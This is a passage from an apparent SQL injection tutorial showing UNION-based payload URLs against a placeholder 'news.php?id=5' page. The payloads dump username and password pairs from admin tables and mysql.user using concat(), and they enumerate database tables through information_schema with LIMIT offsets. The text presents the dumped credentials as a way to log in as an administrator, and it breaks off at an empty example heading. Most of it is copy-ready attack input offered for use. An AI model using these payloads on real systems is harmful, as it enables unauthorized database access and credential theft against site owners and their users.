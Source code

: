 We seen the password on the screen in hash or plain-text, it depends on how the database is set up i.e md5 hash, mysql hash, sha1. Now we must complete the query to look nice. For that we can use **concat()** function (it joins strings)

**Example**

```html
http://server/news.php?id=5 union all select1,concat(username,0x3a,password),3 from admin/*
```

**NOTE:** We used 0x3a, it’s a hexadecimal value (0x3a is the hexadecimal value for the column). Another method is to use char (58) in ascii mode.

```html
http://server/news.php?id=5 union all select 1,concat(username,char(58), password),3 from admin/*
```

Now we get displayed username:password on screen, i.e admin:admin or admin:somehash when you have this, you can log in like admin or some superuser. If can't guess the right table name, you can always try "mysql.user", as per the following example:

```html
http://server/news.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*
```

### MySQL 5

For this we need **"information\_schema"** table. It contains all tables and columns architecture of the database. To get the tables we use **"table\_name"** and **"information\_schema.tables"**.

**Example**

```html
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables/*
```

Here we replace the number 2 with **"table\_name"** to get the first table from **"information\_schema"**.tables displayed on the screen. Furthermore, we will need to add LIMIT to the end of the query to list out al tables.

**Example**

```html
http://server/news.php?id=5 union all select 1,table_name,3 from infor-mation_schema.tables limit 0,1/*
```

**NOTE:** That we put 0,1 (To get 1 result starting from the 0th) now to view the second table, we change "limit 0,1" to "limit 1,1".

**Example**

```html
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 1,1/*
```

The second table is displayed. If you want to do the same for the third table let’s move on using: "limit 2,1"

**Example**
